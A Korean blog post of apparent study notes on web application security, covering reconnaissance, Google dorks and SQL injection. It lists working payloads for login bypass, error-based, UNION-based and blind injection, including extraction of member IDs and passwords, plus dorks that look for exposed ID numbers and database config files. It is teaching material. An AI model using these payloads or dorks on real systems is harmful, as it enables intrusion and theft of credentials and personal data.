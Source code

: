 ```yaml
---
layout: post
title: "웹 어플리케이션 보안 -1"
author: "한결"
categories: blog
---
```



### 쿠키

* 웹 해킹 절차 : 공격대상 선정 -> 정보수집 -> 취약점 분석 -> 공격 -> 보고서
* 정보수집
  * 포트 스캔
  * 사이트 정보 수집
    * ip 확인 nslookup 도메인 이름
    * 사이트 구조 (웹서핑)
    * whois
    * netcraft.com
    * archive.org
    * 크롤링
    * 소스보기, 개발자 도구
    * 검색엔진 정보수집

* 디렉터리 리스팅 취약점 : 서버 설정 미흡

* 구글 해킹 

  구글 검색을 통해 검색되는 중요 정보들이 존재함. 보안 미흡.

  * intitle:index.of 영화
  * filetype:xlsx 주민등록번호
  * inurl:admin/member_list.jsp
  * inurl:dbconn.inc
  * https://www.exploit-db.com
  * shodan.io



* 구글해킹 대책 : 구글 사이트에 신고할 것.
  * robots.txt : 검색되지 않게하는 설정파일을 작성함. 설정파일을 무시하고 검색되게 만드는 사이트도 있음.
  * /robot_flag/
  * http://ctf.j0n9hyun.xyz:2020/



### 모의해킹 

체크리스트 기반의 취약점을 진단해본다. 전세계에서 유명한 취약점 리스트를 알아야 함.

* 국내에서 자주 사용하는 취약점 리스트
  * 국정원 8대 취약점
  * 과기부, 행안부, kisa -> 각종 취약점, 보안 관련 가이드 문서. 주요기반시설취약점 진단 가이드



### SQL 인젝션

웹 어플리케이션이 데이터베이스에 날리는 SQL을 개발자가 의도하지 않은 형태로 조작하여 공격하는 기법이다.

* Form SQL Injection (bypass SQL Injection) 로그인 SQL 인젝션

  ```
  Form SQL Injection (bypass SQL Injection)
  
  select * from member where id='사용자입력id' and pwd='사용자입력pwd'
  -> 일반적인 로그인 과정에서 SQL 쿼리문
  
  id : ' or 1=1--
  
  -- : MSSQL, ORALCD에서 사용되는 주석처리
  # : MYSQL에서 사용되는 주석처리
  ```

  ```
  select * from member where id='' or 1=1--
  -> 첫번째 조회되는 사용자의 계정으로 로그인됨.
  
  ' or ''='
  ' or '1'='1'
  ' or '1'='1
  
  ' or '2'='2
  ' or 2>1
  ' or 1=1--
  
  반복적으로 숫자를 바꿔서 시도해보며 해킹시도.
  ```

  * http://coashanee5.blogspot.com/2017/02/sql.html

  

  ```
  select * from member where (id='아이디' and pwd='패스워드');
  -> ' or 1=1)--
  
  특정 사용자로 로그인 시도
  attacker'--
  ```





* Error based SQL injection

  응답 에러메세지를 통해 정보를 획득하여 공격하는 SQL 인젝션 공격기법

  게시판 검색창을 통해 해킹.

  ```
  ' and db_name()=0-- 
  -> db 이름 알아내기
  
  ' and @@version=0-- 
  -> dbms 버전 정보 알아내기
  
  ' and @@serviocename=0-- 
  -> dbms 서비스 이름 알아내기
  ```

  * having

    ```
    ' having 1=1--
    -> 에러 발생하며 DB 테이블명이 chapter1 컬럼명은 idx 라는 정보를 알아냄
    ```

  * group by

    ```
    ' group by chapter1.idx--
    -> 정보 획득 chapter1.level_idx 
    
    ' group by chapter1.idx, chapter1.level_idx--
    -> 정보 획득 'chapter1.ref_idx' 
    
    ' group by chapter1.idx, chapter1.level_idx, chapter1.ref_idx--
    -> 정보 획득 'chapter1.title' 
    
    chapter1.idx   chapter1.level_idx   chapter1.ref_idx  chapter1.title
    
    ' group by chapter1.idx, chapter1.level_idx, chapter1.ref_idx, chapter1.title, chapter1.name, chapter1.wtday, chapter1.hitcnt--
    
    ```

    ```
    로그인창에서도 똑같이 에러정보를 통해 컬럼명을 획득할 수 있다.
    
    'group by member.m_idx,member.m_id,member.m_name --
    ```



### Union SQL Injection의 조건

Union으로 연결할 양쪽의 컬럼의 수가 같아야 한다. 같은 위치의 컬럼의 타입이 다를 경우 에러가 발생할 수 있다. 컬럼의 이름이 정확해야 한다.

```
' union select NULL,NULL,NULL,NULL,NULL,NULL,NULL from member--

' union select 1,1,1,1,1,1,1 from member--


' union select 1,1,1,m_id,m_name,NULL,NULL from member--

-> union select를 사용하여 member 테이블의 데이터를 게시판 항목으로 출력

' union select 1,1,1,m_id,m_name,NULL,NULL from member where m_id > 'b'--
```





### information_schema를 사용한 DB 정보 획득 SQL 인젝션

* MYSQL, MSSQL의 경우 information_schema 데이터 베이스에 전체 DB의 정보가 저장됨.
* information_schema.columns 테이블을 조회할 경우, 전체 DB의 테이블명, 컬럼명을 조회할 수 있음. (table_name, column_name)
* Union SQL Injection 으로 information_schema.columns의 항목을 포함시켜 DB 정보 획득 공격을 진행해보도록 한다.

```
' union select 1,1,1,table_name,column_name,NULL,NULL from information_schema.columns--
-> 테이블 명, 컬럼 명 조회

' union select 1,1,1,table_name,NULL,NULL,NULL from information_schema.columns--
-> 테이블 명만 조회
-> member 테이블 존재 확인

' union select 1,1,1,column_name,NULL,NULL,NULL from information_schema.columns where table_name='member'--
-> 멤버테이블의 컬럼명을 확인
-> 테이블명, 컬럼명이 확인이 되고 해당 정보를 바탕으로 union select를 사용하여 멤버 정보를 출력할 수 있다.

' union select 1,1,1,m_id,m_pwd,NULL,NULL from member--
```



### Blind SQL Injection

쿼리 결과(참, 거짓) 에 따라 정보를 획득하여 공격하는 기법

```
attacker' and 1=1-- 참구문
attacker' and 1=2-- 거짓구문
-> and 뒤의 조건이 참이나 거짓일 경우 결과가 다르게 나타남을 활용한다.
```

* Blind SQL Injection을 이용하여 db 이름 알아내기 실습

  ```
  substring('abcdef', 1,2);
  => abcdef 중 ab 반환 1번째부터 시작해서 2개 길이 반환
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),1,1)) >= ASCII('a')--
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),1,1)) >= ASCII('g')--
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),1,1)) >= ASCII('m')--
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),1,1)) >= ASCII('l')--
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),2,1)) >= ASCII('e')--
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),3,1)) >= ASCII('e')--
  
  ```

  * db이름 : le

    문제점 : -> 노가다가 너무 심하고 시간이 너무 오래걸린다.
    해결책: 자동화된 공격 툴로 공격을 수행한다.
